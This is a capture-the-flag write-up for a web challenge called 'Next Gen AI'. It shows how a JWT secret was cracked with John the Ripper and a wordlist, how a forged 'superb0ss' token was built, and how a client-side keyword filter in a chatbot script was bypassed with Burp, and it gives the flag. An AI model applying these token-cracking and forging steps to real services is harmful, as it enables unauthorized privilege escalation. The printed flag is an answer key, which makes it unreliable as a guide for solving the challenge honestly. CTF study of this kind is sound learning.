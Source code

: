 # Next Gen AI

## Description

IronCode and R-boy’s mission progresses slowly. The region of ComboX is in chaos. Zer0 has managed to discover one of the Seven Secrets, enabling him to take control of the Temple of Cloud. WonderWeb decides to leave the Nebula and save the stronghold.

http://gamebox1.reply.it/ba3eab423b1f3ff4df2b8da016084b61/

## Solution

Analyzing tha site we fount in the request Header that the site uses `JWT`

```
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoidXNlciJ9.jcBjGaU-N9koHQvZ8mYKmNi5B-QNmCTejbSUUsodkDw

From Base64 -> {"typ":"JWT","alg":"HS256"}{"role":"user"}
```

In the `chatbot.js` we also found that the string `allroles` is filtered out before the request is sent, let's try intercept end edit the request using Burp

```
text=allroles
```

We get this in respose

![](img1.png)

Let's now try to crack the `HS256`, and recreate that authorization using `superb0ss`

```console
$john --wordlist=./rockyou.txt temp
Created directory: /home/tiz314/snap/john-the-ripper/459/.john
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chicken          (?)
1g 0:00:00:00 DONE (2021-10-17 22:56) 50.00g/s 1228Kp/s 1228Kc/s 1228KC/s 123456..280690
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The key is `chicken`

![](img2.png)

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoic3VwZXJiMHNzIn0.fJCNV7l5CIfHAvWJD93MrKzScH8ne67LcQyB6uycAcg`

Let's send a request with this new authorization token

![](img3.png)

#### **FLAG >>** `{FLG:You4reSm4rt3rTH4nMyAI}`